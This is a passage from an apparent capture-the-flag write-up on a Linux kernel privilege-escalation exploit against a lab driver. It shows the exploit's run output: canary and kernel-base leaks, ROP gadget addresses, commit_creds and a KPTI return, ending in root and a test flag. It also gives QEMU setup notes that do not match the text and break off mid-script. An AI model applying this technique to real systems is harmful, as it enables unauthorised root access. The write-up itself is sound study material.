 ```c
```

### Running the exploit in the terminal
```
/ $ id
uid=1000 gid=1000 groups=1000
/ $ cat /dev/sda
cat: can't open '/dev/sda': Permission denied
/ $ ./exploit 
[*] Saved state
[*] Opening name: /dev/hackme
[*] Opened device
[*] Global fd: 3
[*] Size of leak: 200
[*] raw_copy_to_user succeeded
[*] Canary: 0x7bfe3a46dd7b1800
[*] rbp_leak: 0xffffa0ab40203be8
[*] Kleak:  0xffffffffa65bf24c
[*] Kbase: 0xffffffffa5e00000
[*] User rsp: 0x7ffd8506d9c0
[*] pop rdi: 0xffffffffa6168000
[*] pop rax: 0xffffffffa60c11b4
[*] pop rcx: 0xffffffffa666c37a
[*] pop rax pop rdi: 0xffffffffa63e0360
[*] pop r11 mov cl qword ptr rax: 0xffffffffa6206e0f
[*] push rax call rcx: 0xffffffffa652c38c
[*] ret: 0xffffffffa79134f9
[*] find_task_by: 0xffffffffa61bb5c0
[*] prepk_creds: 0xffffffffa61c9a00
[*] commit_cred: 0xffffffffa61c9740
[*] kpti_trampo: 0xffffffffa5e011bc
[*] Offsets fixed
[*] Returned to userland
[*] UID: 0, got root!
/ # id
uid=0 gid=0
/ # cat /dev/sda
cl1nical.testflag{YOU_WIN!}
/ # 
```


### Checking for stability
After getting the exploit running it was time for making it stable. After enabling ASLR it was only working 1/4 of the times which is not a lot. I figured out that some of the ropgadgets would only be calculated correctly sometimes. For example pop rcx was unstable. For that reason I found a different pop rcx that would work every time. Finally, I used ChatGPT to generate a script that could automate testing the exploit to see how stable it was.<br>
I added the following line to run.sh, opening port 4444:
```
 -serial tcp:127.0.0.1:4444,server,nowait
```
So run.sh would become:
```
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
```